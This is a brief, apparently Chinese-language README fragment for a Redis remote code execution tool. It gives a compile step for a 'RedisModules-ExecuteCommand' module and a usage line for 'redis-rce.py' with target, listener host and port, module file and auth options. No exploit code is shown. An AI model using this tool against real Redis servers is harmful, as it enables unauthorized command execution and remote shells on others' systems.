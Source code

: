 # 使用
### 编译
RedisModules-ExecuteCommand
### 执行
`redis-rce.py [-h] -r RHOST [-p RPORT] -L LHOST [-P LPORT] [-f FILE]
[-a AUTH] [-v]`
